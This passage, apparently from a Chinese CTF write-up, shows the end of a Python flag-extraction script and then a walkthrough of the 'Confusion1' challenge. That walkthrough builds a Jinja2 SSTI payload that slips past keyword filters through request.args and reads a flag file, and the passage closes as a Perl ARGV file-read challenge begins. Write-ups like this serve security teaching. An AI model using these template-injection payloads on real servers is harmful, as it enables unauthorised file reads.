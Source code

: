 ```python
        'password': 'admin'
    }
    res_ = requests.post(url=login_url, data=login_data)
    code = re.search(r'<span class="user-name">\s*(\d*)\s*</span>', res_.text)
    print(chr(int(code.group(1))), end='')
# flag{2494e4bf06734c39be2e1626f757ba4c}
```





### Confusion1

#### 考点：SSTI模板注入

我们在页面的报错页面中发现了flag的路径，问题就是如何读取这个地址，尝试SSTI

```
/{{3*4}}
```

返回12，确认是SSTI了

尝试绕过，我们先尝试最常用的，但是被过滤了（这里应该是过滤了 class、 subclasses、 read等关键词）

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

我们再看眼权限

```
{{config}}
```

尝试使用request

```
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

> 注意`[request.args.a][request.args.b]` 之间相当于有个字符连接符，并且`[request.args.a]()?a=read` 注意a不是等于read()，不然会返回500

最后的payload

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```





### i-got-id-200

#### 考点：perl网页文件+ARGV上传造成任意文件读取

打开url发现有三个链接，点进去都是.pl文件，且只有files可以上传文件。**’.pl‘文件都是用perl编写的网页文件**
